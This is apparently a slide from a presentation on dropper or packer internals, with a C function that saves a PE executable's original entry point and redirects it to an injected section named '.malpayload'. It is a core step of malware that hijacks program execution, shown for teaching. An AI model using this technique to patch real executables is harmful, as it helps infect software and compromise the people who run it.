

Dropper Core Implementation-Reset Entry
// Reset OEP
VOID SetOEP()
{
	// Before modifying the original OEP, save the OEP
	ShareData->OldOep = OptHeader(FileBase)->AddressOfEntryPoint;

	// --------------------AddressOfEntryPoint----------------------

	// new OEP = the offset in the section  + RVA of new section
	OptHeader(FileBase)->AddressOfEntryPoint = StartOffset +
		GetSection(FileBase, ".malpayload")->VirtualAddress;
}